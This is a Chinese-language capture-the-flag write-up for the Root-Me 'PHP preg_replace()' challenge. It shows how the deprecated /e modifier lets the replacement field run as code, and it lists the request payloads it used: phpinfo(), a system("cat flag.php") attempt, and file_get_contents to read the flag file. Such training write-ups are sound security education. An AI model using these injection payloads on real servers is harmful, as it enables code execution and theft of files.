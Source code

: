 Root-Me [PHP preg_replace()](https://www.root-me.org/en/Challenges/Web-Server/PHP-preg_replace)
===

三個 Input 分別為 `search`、`replace`、`content`。

## 解題關鍵
1. PHP Code Review

## 提示訊息
```
Read flag.php.
```

## 解題方法
首先了解一下 `preg_replace` 函數，基礎用法如下：

```PHP
preg_replace($pattern, $replacement, $string);
```

基本上應該適用這三個輸入，去構造一個有效的 Payload 去讀取 `flag.php` 這個檔案，所以先嘗試性的填上值，並送出看看吧。

```
content=MksYitest&replace=Mks&search=/MksYi/
```

當我送出以上的 `Payload` 後，會得到 `Mkstest`，意思就是說 `MksYi` 被取代成 `Mks`。  

至於要如何實踐攻擊，原理在於 `php` 的正則表達式有幾種模式（參考來源: [Pattern Modifiers](https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php)），其中 `e` 模式功能可以轉換字串之前，先使用 `eval` 執行 `replace` 上的字串或變數，但在 `PHP 5.5.0` 被棄用、`7.0` 以上直接移除。  

檢然該題目就是要用這種解法，瞎猜版本低於 `PHP 5.5.0`，所以直接嘗試使用 `phpinfo();` 來試驗。  

```
content=MksYitest&replace=phpinfo();&search=/MksYi/e
```

然後就成功得到 `eval(phpinfo();)test` 的頁面，接著就是讀取關鍵的 `flag.php`，透過 `system`、`shell_exec()` 執行系統指令 。  

```
content=MksYitest&replace=system("cat flag.php");&search=/MksYi/e
```

但卻跳出以下訊息，表示 `system()`、`shell_exec()` 功能沒有開啟...。  

```
Warning: system() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1 test
Warning: shell_exec() has been disabled for security reasons in /challenge/web-serveur/ch37/index.php(25) : regexp code on line 1 test
```

懊惱之下發現，有更方便的函數可以使用 `file_get_contents()`，最終 Payload 如下，解決該題。  

```
content=MksYitest&replace=file_get_contents("flag.php");&search=/MksYi/e
```

![](img/01.png)  

## Reference
https://www.php.net/manual/en/function.preg-replace.php
https://www.php.net/manual/en/reference.pcre.pattern.modifiers.php
https://blog.longwin.com.tw/2013/06/php-system-exec-shell_exec-diff-2013/
https://www.php.net/manual/en/function.file-get-contents.php

## 授權聲明
[![copyright © 2019 By MksYi](https://img.shields.io/badge/copyright%20©-%202019%20By%20MksYi-blue.svg)](https://mks.tw/)
[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)